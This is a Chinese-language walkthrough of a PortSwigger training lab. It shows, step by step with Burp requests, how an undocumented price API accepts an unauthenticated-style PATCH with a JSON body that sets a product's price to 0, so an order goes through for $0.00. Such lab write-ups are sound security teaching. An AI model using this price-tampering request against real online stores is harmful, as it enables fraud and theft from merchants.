

# Lab: Finding and exploiting an unused API endpoint

[Open Lab](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)



## Goal

找到 hidden API，並透過它購買 **Lightweight "l33t" Leather Jacket**。做法是把商品價格改成 `0` 後下單。

## Steps

### Step 1: 開啟網站

打開 Lab 後，進入購物網站首頁：

```text
https://<LAB-ID>.web-security-academy.net
```

### Step 2: 登入帳號

點右上角 **My account**，用題目提供的帳密登入：

- Username: `wiener`
- Password: `peter`

### Step 3: 找出 hidden API

先在瀏覽器正常瀏覽商品頁，點第一個商品的 **View details**，讓流量出現在 Burp。

到 **Burp > Target > Site map** 觀察到疑似內部 API：

```http
GET /api/products/1/price
```

### Step 4: 確認 endpoint 可直接呼叫

右鍵該 URL，選擇 **Send to Repeater**。在 **Burp > Repeater** 重放請求，確認回應為 `200 OK`，代表 endpoint 可直接呼叫。

### Step 5: 測試可用的 HTTP method

把 method 改成 `PATCH` 嘗試修改價格，收到 `400 Bad Request`，並提示：

```http
Only 'application/json' Content-Type is supported
```

這代表 API 接受 JSON body。

### Step 6: 補齊 JSON 格式需求

依照提示加上 header：

```http
Content-Type: application/json
```

此時回 `500 Internal Server Error`，通常表示已進入後端處理流程，但 body 不符合預期。

接著在 body 放 `{}`，回到 `400 Bad Request`，並出現：

```json
"'price' parameter missing in body"
```

表示 body 必須包含 `price` 欄位。

### Step 7: 把價格改成 0

送出以下 request：

```http
PATCH /api/products/1/price HTTP/2
Content-Type: application/json

{
  "price": 0
}
```

回應為 `200 OK`：

```json
{
  "price": "$0.00"
}
```

表示價格已成功被修改。

### Step 8: 前端下單

回到瀏覽器找到 **Lightweight "l33t" Leather Jacket**：

1. 點 **Add to cart**
2. 進入 **Cart**
3. 確認價格為 `$0.00`
4. 點 **Place order**

## Result

成功以 `$0.00` 購買商品，完成 lab。
